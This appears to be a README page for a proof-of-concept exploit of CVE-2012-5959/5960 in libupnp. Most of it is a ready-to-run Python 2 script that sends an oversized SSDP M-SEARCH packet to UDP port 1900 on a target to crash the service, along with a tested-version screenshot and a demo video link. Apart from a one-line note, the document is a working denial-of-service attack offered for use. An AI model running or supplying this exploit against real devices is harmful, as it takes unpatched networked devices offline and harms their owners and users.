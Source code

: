 # CVE-2012-5960-PoC
CVE-2012-5960, CVE-2012-5959 Proof of Concept

隨手記錄一下最近玩的東西。

```python=
#!/usr/bin/python2
# -*- coding: utf-8 -*-
# Usage: python2 libupnp_DoS_PoC.py

import socket

TARGET = 'TARGET_IP'

'''
normal_traffic = \
    'M-SEARCH * HTTP/1.1\r\n'                   \
    'HOST:239.255.255.250:1900\r\n'             \
    'MX:3\r\n'                                  \
    'MAN:"ssdp:discover"\r\n'                   \
    'ST:upnp:rootdevice\r\n'                    \
    '\r\n'
'''

dos = \
    'M-SEARCH * HTTP/1.1\r\n'                   \
    'HOST:239.255.255.250:1900\r\n'             \
    'MX:3\r\n'                                  \
    'MAN:"ssdp:discover"\r\n'                   \
    'ST:uuid:schemas:device:{}:anything\r\n'    \
    '\r\n'.format("A"*512)

# Set up UDP socket
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.settimeout(1)
s.sendto(dos, (TARGET, 1900))

try:
    while True:
        data, addr = s.recvfrom(65507)  # Maximum UDP data length
        print "------------------------\nFailed DoS...\n------------------------\n"
        print "Response:"
        print addr, data
        exit(1)
except socket.timeout:
    print "------------------------\nSuccessful DoS!!!\n------------------------\n"
    exit(0)
```


Tested on libupnp 1.6.13:

![libupnp_1.6.13_CVEmarked](https://imgur.com/IhyUdp8.png)

Demo video:

[![](http://img.youtube.com/vi/3W3NO3nnKJM/0.jpg)](http://www.youtube.com/watch?v=3W3NO3nnKJM "")
